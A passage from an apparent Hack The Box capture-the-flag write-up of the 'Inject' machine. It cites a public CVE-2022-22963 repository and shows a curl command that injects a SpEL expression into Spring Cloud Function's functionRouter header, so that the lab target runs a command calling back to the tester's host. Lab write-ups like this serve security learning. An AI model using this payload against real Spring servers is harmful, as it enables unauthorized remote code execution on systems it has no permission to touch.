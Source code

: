 ![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/EN/Machines/Easy/Inject/img/10.png?raw=true)


While searching for the CVE on GitHub, we found the following repository:

[CVE-2022-22963](https://github.com/me2nuk/CVE-2022-22963)

![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/EN/Machines/Easy/Inject/img/11.png?raw=true)

In this repository, we have found a section that contains a command allowing us to remotely execute commands by making an HTTP request using the POST method, leveraging a Spring Cloud function.

```
elswix@parrot > curl -X POST  http://10.129.35.222:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.16.42/probando")' --data-raw 'data' -v
```
